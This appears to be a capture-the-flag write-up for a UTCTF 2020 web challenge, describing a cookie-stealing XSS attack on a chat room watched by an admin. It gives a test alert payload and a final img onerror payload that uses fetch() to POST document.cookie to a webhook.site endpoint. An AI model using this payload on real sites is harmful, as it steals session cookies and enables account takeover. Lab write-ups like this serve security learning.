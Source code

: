 ```yaml
---
ctf: utctf
year: 2020
tags:
  - web
  - xxs
---
```


# UTCTF 2020

## Web

### Chatt with Bratt

For this challenge we were faced with a chat room with Brad Pid himself!
There was a warning though, we could not be rude to Brad because we admins would check the chats.

With this in mind, we start by trying a simple [XSS injection](https://owasp.org/www-community/attacks/xss/).

```html
<body onload=alert('test1')>
```

Hitting send caused the alert to trigger!
So now lets make it a bit more complex, we need some endpoint to make requests to.
I used [Webhook.site](https://webhook.site), it gives me a URL to make requests to and logs everything.

Before getting into the script, we need to decide what to steal.
In our case, when looking at the cookies there is one that stands out, the `secret`.

We'll steal them!

My final script looked like:

```html
<img
    src="http://url.to.file.which/not.exist"
    onerror="fetch(
        'https://webhook.site/#!/81f7d094-c908-465d-a571-ad47582fd6c6', {
            method:'POST',
            body: JSON.stringify({data:document.cookie})
        }
    );">
```

Which sent the flag to the given endpoint.